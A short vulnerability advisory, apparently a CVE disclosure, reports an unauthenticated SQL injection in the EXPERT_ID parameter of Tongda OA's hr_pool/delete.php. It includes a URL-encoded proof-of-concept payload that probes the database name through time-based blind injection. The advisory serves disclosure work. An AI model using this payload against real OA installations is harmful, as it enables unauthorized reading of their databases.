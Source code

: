 Unauthorized SQL injection vulnerability exists in Tongda OA

version:Versions below 11.10 and version v2017

Route: general/hr/recruit/hr_pool/delete.php

There is an injected parameter: $EXPERT_ID

The code here is very concise. When $EXPERT_ID is not empty, the parameters are directly spliced ​​into the SQL statement. Since the brackets are closed here, there is a bypass.

![图片1](https://github.com/kpz-wm/cve/assets/65756088/9e0035ca-ae06-47af-8ec1-7b1b48f23e73)

POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![图片2](https://github.com/kpz-wm/cve/assets/65756088/25e6eefc-6ac5-4873-a0dc-40fc178d0980)
